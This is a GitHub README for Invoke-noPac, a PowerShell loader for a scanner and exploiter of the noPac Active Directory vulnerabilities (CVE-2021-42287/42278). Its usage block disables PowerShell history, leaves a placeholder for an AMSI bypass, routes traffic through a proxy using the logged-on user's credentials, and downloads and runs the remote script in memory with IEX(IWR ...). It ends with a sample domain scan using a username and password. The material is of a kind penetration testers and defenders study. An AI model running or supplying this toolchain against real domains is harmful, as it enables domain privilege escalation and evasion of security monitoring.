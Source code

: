 # Invoke-noPac

## The .Net assembly is based on my fork https://github.com/ricardojba/noPac that has a few code changes to improve upon the original.

.Net Assembly loader for the CVE-2021-42287/CVE-2021-42278 Scanner & Exploiter (https://github.com/cube0x0/noPac), PowerSharpPack (https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style.

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-noPac.ps1')

Invoke-noPac
Invoke-noPac -Command "scan -domain htb.local -user domain_user -pass 'Password123!'"
```
